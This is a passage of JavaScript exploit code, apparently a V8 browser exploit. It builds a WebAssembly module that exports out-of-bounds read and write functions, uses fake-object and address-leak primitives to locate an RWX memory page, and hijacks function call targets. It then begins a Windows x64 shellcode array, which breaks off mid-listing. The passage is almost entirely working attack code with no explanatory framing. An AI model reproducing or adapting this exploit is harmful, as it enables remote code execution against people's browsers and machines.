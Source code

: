 ```javascript=
        
        var wasmArr = new Uint8Array([
            0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00, 0x01, 0x15, 0x04, 0x60,
            0x02, 0x7e, 0x7e, 0x00, 0x60, 0x01, 0x7e, 0x01, 0x7e, 0x60, 0x02, 0x7f,
            0x7e, 0x00, 0x60, 0x01, 0x7f, 0x01, 0x7e, 0x03, 0x05, 0x04, 0x00, 0x01,
            0x02, 0x03, 0x05, 0x03, 0x01, 0x00, 0x01, 0x07, 0x2d, 0x04, 0x09, 0x6f,
            0x6f, 0x62, 0x5f, 0x77, 0x72, 0x69, 0x74, 0x65, 0x00, 0x00, 0x08, 0x6f,
            0x6f, 0x62, 0x5f, 0x72, 0x65, 0x61, 0x64, 0x00, 0x01, 0x08, 0x64, 0x6f,
            0x5f, 0x77, 0x72, 0x69, 0x74, 0x65, 0x00, 0x02, 0x07, 0x64, 0x6f, 0x5f,
            0x72, 0x65, 0x61, 0x64, 0x00, 0x03, 0x0a, 0x1c, 0x04, 0x03, 0x00, 0x01,
            0x0b, 0x04, 0x00, 0x42, 0x00, 0x0b, 0x09, 0x00, 0x20, 0x00, 0x20, 0x01,
            0x37, 0x03, 0x00, 0x0b, 0x07, 0x00, 0x20, 0x00, 0x29, 0x03, 0x00, 0x0b,
            0x00, 0x64, 0x04, 0x6e, 0x61, 0x6d, 0x65, 0x01, 0x29, 0x04, 0x00, 0x09,
            0x6f, 0x6f, 0x62, 0x5f, 0x77, 0x72, 0x69, 0x74, 0x65, 0x01, 0x08, 0x6f,
            0x6f, 0x62, 0x5f, 0x72, 0x65, 0x61, 0x64, 0x02, 0x08, 0x64, 0x6f, 0x5f,
            0x77, 0x72, 0x69, 0x74, 0x65, 0x03, 0x07, 0x64, 0x6f, 0x5f, 0x72, 0x65,
            0x61, 0x64, 0x02, 0x32, 0x04, 0x00, 0x02, 0x00, 0x04, 0x76, 0x61, 0x72,
            0x31, 0x01, 0x04, 0x76, 0x61, 0x72, 0x32, 0x01, 0x01, 0x00, 0x04, 0x76,
            0x61, 0x72, 0x31, 0x02, 0x02, 0x00, 0x06, 0x6f, 0x66, 0x66, 0x73, 0x65,
            0x74, 0x01, 0x05, 0x76, 0x61, 0x6c, 0x75, 0x65, 0x03, 0x01, 0x00, 0x06,
            0x6f, 0x66, 0x66, 0x73, 0x65, 0x74])
        var wasmModule = new WebAssembly.Module(wasmArr);
        var wasmInstance = new WebAssembly.Instance(wasmModule, {});
        var wasmExports = wasmInstance.exports;
        var oob_read = wasmExports.oob_read
        var oob_write = wasmExports.oob_write
        var do_read = wasmExports.do_read
        var do_write = wasmExports.do_write
        
        oob_read(0n)
        oob_write(0n, 0n)
        do_read(0)
        do_write(0, 0n)

        fakeObjArr[0] = pair_32_to_f(packDoubleArrMap, emptyFixedArray)
        fakeObjArr[1] = pair_32_to_f(0x25 - 0x8, 0x222)
        var base = ftoi(fakeObj[0]) & 0xffffffffn;
        base = base << 32n
        var memory_base = base + 0x380000000n
        fakeObjArr[1] = pair_32_to_f(fakeObjArrEle + 0x20, 0x222)
        console.log("Base: 0x" + base.toString(16))
        console.log("Memory Base: 0x" + memory_base.toString(16))
        
        var instance_addr = addrOf(wasmInstance)
        var lower_rwx = read_4(instance_addr + 0x48n) & 0xffffffffn
        var upper_rwx = read_4(instance_addr + 0x4cn) & 0xffffffffn
        var rwx_addr = (upper_rwx << 32n) | lower_rwx
        console.log("RWX: 0x" + rwx_addr.toString(16))
        var target = rwx_addr + 0xe00n

        swap_call_target(oob_read, do_read)
        swap_call_target(oob_write, do_write)
        // oob_write(target - memory_base, 0x9090909090909090n)
        // oob_read(0x111111111111111n)
        // dp(oob_read)
        // dp(wasmInstance)

        var shellcode = [0x54, // push rsp due to movaps issue
            0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x42, 0x60, 0x48, 0x8b, 0x70, 0x18, 0x48, 0x8b, 0x76, 0x20,
            0x4c, 0x8b, 0x0e, 0x4d, 0x8b, 0x09, 0x4d, 0x8b, 0x49, 0x20, 0xeb, 0x63, 0x41, 0x8b, 0x49, 0x3c,
```